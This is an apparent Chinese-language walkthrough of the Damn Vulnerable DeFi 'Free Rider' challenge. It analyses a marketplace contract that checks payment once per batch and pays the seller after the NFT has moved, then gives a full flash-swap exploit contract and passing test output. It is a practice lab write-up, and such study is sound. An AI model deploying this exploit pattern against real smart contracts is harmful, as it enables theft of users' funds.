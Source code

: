 ## 题目 [Free Rider](https://github.com/theredguild/damn-vulnerable-defi/tree/v4.0.0/src/free-rider)

一个名为 `Damn Valuable NFTs` 的新市场已经发布！目前有 6 个 NFT 被铸造，并在市场上出售。每个 NFT 的售价为15 ETH。  

然而，一个关键漏洞已经被报告，称所有的代币都可能被盗取。开发人员不知道如何保护这些 NFT ！  

他们悬赏 45 ETH，寻找愿意帮助取出这些 NFT 并将其发送给他们的人。整个恢复过程由一个专用的智能合约管理。  

你决定提供帮助，但你只有 0.1 ETH 的余额。尽管如此，开发人员却没有回复你要求更多资金的消息。  

如果你能获得免费的ETH，哪怕只是一瞬间，那该多好。  

## 合约分析
这个 `FreeRiderNFTMarketplace` 合约提供了简单的 NFT 交易功能，卖家可以批量上架 NFT，授权所有 NFT 和批量报价，买家可以批量购买 NFT，把 ether 发给合约，合约再把钱转给卖家。  
问题就出在批量购买中的 `_buyOne` 函数上。
``` solidity
function buyMany(uint256[] calldata tokenIds) external payable nonReentrant {
    for (uint256 i = 0; i < tokenIds.length; ++i) {
        unchecked {
            _buyOne(tokenIds[i]);
        }
    }
}

function _buyOne(uint256 tokenId) private {
    uint256 priceToPay = offers[tokenId];
    if (priceToPay == 0) {
        revert TokenNotOffered(tokenId);
    }

    if (msg.value < priceToPay) {
        revert InsufficientPayment();
    }

    --offersCount;

    // transfer from seller to buyer
    DamnValuableNFT _token = token; // cache for gas savings
    _token.safeTransferFrom(_token.ownerOf(tokenId), msg.sender, tokenId);

    // pay seller using cached token
    payable(_token.ownerOf(tokenId)).sendValue(priceToPay);

    emit NFTBought(msg.sender, tokenId, priceToPay);
}
```
在单独编写 `_buyOne` 函数中，判断 `msg.value` 需要大于报价看起来没什么问题，但是在批量购买的情况下，用户可以花一份 `msg.value` 的钱购买所有输入的 NFT。  
还有一个问题，在这两行代码中。  
``` solidity
_token.safeTransferFrom(_token.ownerOf(tokenId), msg.sender, tokenId);
payable(_token.ownerOf(tokenId)).sendValue(priceToPay);
```
仔细看，这两行代码写反了，先把卖家的 NFT 所有权转给了买家，于是又把 ether 转给了 NFT 所有者（买家）。  
于是说，我们不仅用一份的钱买到了多个 NFT，并且除了支付了一份的钱，每次多买一次 NFT，还能多赚 15 ether。

## 题解
1. 从闪电贷借出 15 ether。
2. 购买所有的 6 个 NFT。
3. 将 NFT 发送到恢复合约，拿到赏金。
4. 偿还闪电贷，并且支付手续费。

POC:
``` solidity
contract FreeRiderExploiter {
    WETH weth;
    IUniswapV2Pair uniswapPair;
    FreeRiderNFTMarketplace marketplace;
    DamnValuableNFT nft;
    FreeRiderRecoveryManager recoveryManager;
    address owner;

    uint256 constant NFT_PRICE = 15 ether;
    uint256 constant AMOUNT_OF_NFTS = 6;

    constructor(WETH _weth, IUniswapV2Pair _uniswapPair, FreeRiderNFTMarketplace _marketplace, DamnValuableNFT _nft, FreeRiderRecoveryManager _recoveryManager) payable {
        weth = _weth;
        uniswapPair = _uniswapPair;
        marketplace = _marketplace;
        nft = _nft;
        recoveryManager = _recoveryManager;
        owner = msg.sender;
    }

    function attack() public {
        // 1. 从 pair 合约借出 15 weth。
        uniswapPair.swap(NFT_PRICE, 0, address(this), "1");

        payable(owner).transfer(address(this).balance);
    }

    function uniswapV2Call(address sender, uint256 amount0, uint256 amount1, bytes calldata data) external {
        weth.withdraw(weth.balanceOf(address(this)));

        // 2. 购买所有的 6 个 NFT。支付了 15 ether, 但收到了 15 * 6 = 90 ether
        uint256[] memory ids = new uint256[](AMOUNT_OF_NFTS);
        for (uint i = 0; i < ids.length; ++i) {
            ids[i] = i;
        }
        marketplace.buyMany{value: NFT_PRICE}(ids);

        // 3. 将 NFT 发送到恢复合约，拿到赏金。
        for (uint i = 0; i < ids.length; i++) {
            nft.safeTransferFrom(address(this),address(recoveryManager), i, abi.encode(owner));
        }

        // 4. 偿还闪电贷本金(15 ether) + 手续费(0.3%)。
        uint256 amountToPayBack = NFT_PRICE * 10031 / 10000;
        weth.deposit{value: amountToPayBack}();
        weth.transfer(address(uniswapPair), amountToPayBack);
    }

    function onERC721Received(address, address, uint256 _tokenId, bytes memory _data) external returns (bytes4) {
        return this.onERC721Received.selector;
    }

    receive() external payable {}

}
```
运行测试：
```
forge test --mp test/free-rider/FreeRider.t.sol -vv
```
测试结果：
```
Ran 2 tests for test/free-rider/FreeRider.t.sol:FreeRiderChallenge
[PASS] test_assertInitialState() (gas: 82197)
[PASS] test_freeRider() (gas: 1030001)
Logs:
  player ETH: afterExploit 120053500000000000000

Suite result: ok. 2 passed; 0 failed; 0 skipped; finished in 5.48ms (2.13ms CPU time)
```




